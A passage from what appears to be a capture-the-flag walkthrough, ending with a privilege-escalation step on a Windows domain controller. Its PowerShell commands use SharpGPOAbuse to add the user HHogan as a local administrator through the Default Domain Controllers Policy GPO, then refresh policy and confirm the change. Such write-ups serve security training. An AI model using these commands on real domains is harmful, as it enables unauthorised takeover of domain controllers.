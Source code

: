 ```powershell
```
<br/><br/>
![Untitled]({{ '/assets/images/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87_Untitled_53.png' | relative_url }})
<br/><br/>
```powershell
.\SharpGPOAbuse.exe --AddlocalAdmin --UserAccount HHogan --GPOname "Default Domain Controllers Policy"
gpupdate /force
net localgroup administrators
```
<br/><br/>
![Untitled]({{ '/assets/images/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87/18b7611c-397a-4f48-bb63-bab237409ba9-export-a62fdf17-98e8-40b9-b484-7c20410bdd87_Untitled_54.png' | relative_url }})
<br/><br/>
It is uploaded but if we want to make it valid on system we will need to exit the evil-winrm session and reopen it.
<br/><br/>
Machine pwned!!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
